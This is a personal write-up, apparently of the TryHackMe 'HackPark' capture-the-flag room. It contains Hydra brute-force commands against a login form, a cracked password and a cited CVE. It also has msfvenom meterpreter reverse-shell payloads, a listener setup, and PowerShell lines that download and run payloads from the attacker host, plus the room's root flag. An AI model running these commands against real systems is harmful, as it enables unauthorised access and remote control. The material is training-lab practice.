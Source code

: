 ### HackPark ###

export IP=10.10.142.172

#  Hydra BruteForcing

/Account/login.aspx  -> POST

### Nood use of hydra(Not url encoded) ### 
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.55.208 http-post-form '/Account/login.aspx:__VIEWSTATE=K4fMQ4PNTno9O4a9mvFQlVU7+NmNu7HGiIqqPZSB8lfMzv7EJCv4kJaHy+03b6ie95TpilUpJhAIPKrmxOIjSmGIe8GpoTgfc1jwYNL9TUEBc4LuKaCOrsIPVWZ29kcJBOUxT+nPdjGmnrzkabEJxJav/sOA2fEBTisCQjHY/NKSG/Po&__EVENTVALIDATION=I5MtaoRrmqiBJ6WZBwGxbi/y4I3zAmo33ocx9Ob3XskEhbj0BXsQNCaYUWyiZ/D8qybcqSfCIHIHO2mEp9EFE8VIGoVukWXAsXk0xVg4DdpvYOs8Zc6YElLtVTtjH1LICP7sesGJ7VRwioMtgUuegV8zJBTCzczbqqnZ64LIY6tvhFxh&ctl00$MainContent$LoginUser$UserName=^USER^&ctl00$MainContent$LoginUser$Password=^PASS^&ctl00$MainContent$LoginUser$LoginButton=Log+in:Login failed'


###  Proed(But im still noob no doubt)  ###

hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.142.172 http-post-form "/Account/login.aspx:__VIEWSTATE=R450UBxTpwQ1OxP8XIMQ5PaQt99ol9weoXC9O24fgI1zCC5DLPN9J852cLKMsQR05kJTApsWxaAl%2BdbE%2B8y2yYBQ%2BqRZ7pFo%2BQqRYQEqLHyjzUAoOw%2F9V%2FZ3qz468H2Rprqya180%2B%2FrXaHyfr0ldobZhJ1NlTWqf6A38nqdv1lu7EpXp&__EVENTVALIDATION=gqXx5sKshGMYUfYGWJx21QpI%2F9q7qPey67IloOgTuqbO8efPY8DDX7aEP0yW2j2YAAQphn3vZJhn8IKc50e2TO%2Fn0P37tNWSA3%2FXIgoJmLQEGuCPULYy0dfdosG9127rZeTthYyPTiedsYoexF4GxpFKzHVjEuFvPSdl%2B6Xat8RsA0A%2B&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Login+in:Login failed"





###  WriteUp Reference ###
hydra -v -l admin -P /usr/share/wordlists/rockyou.txt 10.10.55.208 http-post-form "/Account/login.aspx:__VIEWSTATE=%2BzSkE5rKklYx2evyff1oZJyuSWT7%2FP%2BrwCqOuY9eQFnN3I9b9H%2FemK0b4edjD%2BX4D0kYN6MJXUIltXwXt0PReeyBxoseUQg%2BlNpW6CHIGWNzl%2FGSvdwSZX179PJ%2FI3%2F64LNM7KzKj9sc4BMO83WdCE0KH%2FPjXAKd4RAQ7poy1tOiO7cd&__EVENTVALIDATION=8UPWUPAn6s7hJvO0Pl8kCCO3NAmIgs7nlpsgIlY%2FBUKl7fwtvPmUalPJ5PygYkVuz1H356PzRXwi%2FHQ3z8iJpgXHs8%2BloBQ4qlIePP6FdcvcR2qoLptuS0C5xNkNhrzvN5IJshWQx%2BF3kjK4PfMhuSyiPjbKZA2aFsYrqvz5b2BHveGR&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login Failed"




just wanna clear out, i didnt cheatttttt.....rockyou.txt found the pass lol :D.....pass:1qaz2wsx

found the version:3.3.6.0..looking up on exploit-db

CVE-2019-6714

used the CVE...got the rev_shell:

i am logged in as:iis apppool\blog

# This to generate the rev_shell:

msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.11.18.102 LPORT=5555 -f exe -o meter_rev_shell.exe

in msfconsole: so that msfconsole listenes on 4444:
use exploit/multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 10.11.18.102 set LPORT 5555 run


on the shell that i got earlier: 
Simple downloading the meter_rev_shell so that i can get a meterpreter shell instead:


powershell Invoke-WebRequest -Uri http://10.11.18.102:8000/meter_rev_shell.exe -Outfile shell.exe


Started the process and got the rev_shell:
Start-Process "rev_shell.exe" || shell.exe

# For Winpeas

msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.11.18.102 LPORT=6666 -f exe -o esc.exe

powershell Invoke-WebRequest -Uri http://10.11.18.102:8000/winPEAS.exe -Outfile winPEAS.exe


laggyy///im bad:root flag:7e13d97f05f7ceb9881a3eb3d78d3e72